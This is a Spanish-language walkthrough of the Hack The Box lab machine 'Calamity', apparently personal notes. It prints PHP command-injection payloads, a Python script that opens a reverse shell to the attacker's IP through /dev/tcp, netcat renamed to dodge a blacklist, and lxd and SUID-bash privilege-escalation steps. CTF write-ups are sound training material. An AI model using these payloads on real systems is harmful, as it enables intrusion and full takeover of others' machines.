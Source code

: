 ![[Pasted image 20231017183537 2.png]]

- **OS**: Linux 
- **Dificultad**: Difícil 
- **Dirección IP**: 10.129.182.234
- **Fecha**: 22/10/23

> Nunca olvides dar permisos de ejecucion con `chmod +x [file]`

![[Pasted image 20231022153505.png]]

> Consejo: Antes de usar una herramienta que haga fuerza bruta como `wfuzz` o `gobuster` u alguna otra, es mejor que *primero* hagamos fuerza bruta con `http-enum` de nmap el cual nos dara las rutas exitosas con código de estado `200`, es decir, existentes
> Esto con el objetivo de evitar saturar el servidor web con las otras herramientas

```bash 
nmap --script http-enum -p80 10.129.182.234 -oN webScan -vvv
```
![[Pasted image 20231022154044.png]]

En la pagina de `/admin.php` haciendo **Ctrl+U** no encontramos nada pero si hacemos **Ctrl+Shift+C** podemos ver texto dentro de una función del código

![[Pasted image 20231022154835.png]]

### Rervser Shell con script en bash
Interpreta código php: (para esto yo ya tengo un servidor activo en python )
```php
<?php system ("curl 10.10.14.129:81 && whoami");
```
![[Pasted image 20231022162927.png]]

fakeshell.sh 
Esto es como que el esqueleto del script 

![[Pasted image 20231022170038.png]]

Y el resultado es este:

![[Pasted image 20231022170119.png]]

Solamente lee y repite el texto introducido pero no esta conectado a nada, se tiene que adaptar 

Para poder ejecutar esto en la web, necesitamos `la cookie de sesion del usuario` ya que sin ella no podremos ejecutar nada porque necesitaremos loggeranos y no podemos hacer eso desde aqui, asi que por eso la necesitamos. 

Y así quedaría el script interactuando bien con el servidor: 
![[Pasted image 20231022174447.png]]
![[Pasted image 20231022191055.png]]
**i**
Fragmento largo:

```bash
echo; curl -s -G $main_url --data-urlencode "html=<?php system (\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo  
```

Una vez dentro asi fue como desde la bash entablamos una "reverse shell" 
![[Pasted image 20231022180017.png]]
![[Pasted image 20231024190819.png]]

![[Pasted image 20231022180030.png]]

### Reverse Shell con Script en Python 

Ahora, todo lo que hicimos, vamos a automatizarlo en un script en Python:

Al no tener éxito en la ejecución del script, lo tunelizamos a través de `BurpSuite` para ver cual es el problema

El problema es que no funcionaba bien por el `&` 
![[Pasted image 20231022184646.png]]
Asi que nos vamos al decoder de burpsuite para decoderalo 
![[Pasted image 20231022184731.png]]
Y el script quedaría de la siguiente manera: 


![[Pasted image 20231022191234.png]]
![[Pasted image 20231022190129.png]]
Fragmento largo: 
```python
#%20 es para urlencodear los espacios
    #%26 es &
    #/dev/shm = bash
    r = requests.get(mainURL + "?html=<?php%20system (\"cp%20/bin/bash%20/dev/shm/venom\");%20?>", headers=headers)
    r = requests.get(mainURL + "?html=<?php%20system (\"chmod%20+x%20/dev/shm/venom\");%20?>", headers=headers)
    r = requests.get(mainURL + "?html=<?php%20system (\"/dev/shm/venom%20-c%20'/dev/shm/venom%20-i%20>%26%20/dev/tcp/10.10.14.129/443%200>%261'\");%20?>", headers=headers, proxies=burp) 
    r = requests.get(mainURL + "?html=<?php%20system (\"cp%20/bin/bash%20/dev/shm/venom\");%20?>", headers=headers)
```

Y el resultado es el siguiente: 
![[Pasted image 20231022190210.png]]
No fue necesario entablar una  `reverse shell`
> OJO, para que funcione se necesita el sudo, pero igual sin usar sudo y nos ponemos en escucha en el puerto también funciona pero ya ahora si como una `reverse shell` 

---
Ahora hasta aquí ya tenemos 3 formas diferentes para tener una `reverse shell`
1. Reverse Shell con Script en bash (Sin usar netcat, desde la fakeshell la mandamos a nuestra maquina local)
2. Reverse Shell con Script en Python (Sin usar sudo, usando netcat)
3. Shell interactiva en Python 

---
### Tratamiento de la tty 


```bash 
script /dev/null -c bash 
CTRL + Z 
stty raw -echo; fg 
reset xterm 
export SHELL=/bin/bash 
export TERM=xterm
```

tratamiento de la tty con color:

```bash 
script /dev/null -c bash 
CTRL + Z 
stty raw -echo; fg 
reset xterm 
export SHELL=/bin/bash 
export TERM=xterm-256color && source /etc/skel/.bashrc
stty rows 24 columns 80
```

Despues ajustar filas y colunmas

`stty rows 24 columns 80`

---
### Transferencia de archivos 

En la maquina remota a un archivo `.wav` el cual es audio, para tener acceso a ella, es decir, transferirnosla hacemos los siguiente: 

> OJO, hay que tener en cuenta que la maquina victima tiene en blacklist el netcat, por lo que si lo usamos no va a funcionar
> ![[Pasted image 20231024193232.png]]

Pasamos el `netcat` a `/dev/shm` y le cambiamos el nombre a `transfer`

![[Pasted image 20231024193356.png]]
Nos ponemos en escucha de la siguiente manera:
![[Pasted image 20231024193533.png]]
Y transferimos de la siguiente manera 
![[Pasted image 20231024193618.png]]
Aquí estamos disfrazando el netcat con `/dev/shm/transfer`
Y listo. 

También lo podemos hacer con peticiones web

Nos descargamos los archivos de audio con `curl -X POST `

- escuchamos el audio
- lo invertimos 
- y nos da la siguiente contraseña en el audio  

`18547936..*`

Ahora, para ser root lo que hacemos tiene que ver con `lxd` que nos damos cuenta cuando hacemos `id`

Entonces hacemos lo siguiente

- searchsploit lxd 
- searchsploit -m lxd (copiamos la descarga con wget que nos sale ahi)
- searchsploit -m 
- cambiamos el nombre de al archivo a `lxd_privsec.sh`
- corremos el `build-alphine` para que nos cree una imagen 
- Transferimos la imagen comprimida y el script de lxd 
- le damos permisos de ejecución
- `./lxd_privsec -f [alphine...`
- Si nos da error solo comentamos esta linea
![[Pasted image 20231108171831.png]]
- Lo volvemos a correr y listo 

Lo que hace esto es crear un contendor dentro de la maquina donde al parecer por detras de va ejecutando asi que nos vamos a `/mnt/root/root/root.txt` y ahí tenemos la flag

Algo interesante es que para poder ser root, una táctica que podemos usar es modificar los permisos de `/bin/bash` que debe de ser SUID, una vez hecho esto, hacemos `bash -p`  listo

[Calamity has been Pwned!](https://www.hackthebox.com/achievement/machine/802825/37)

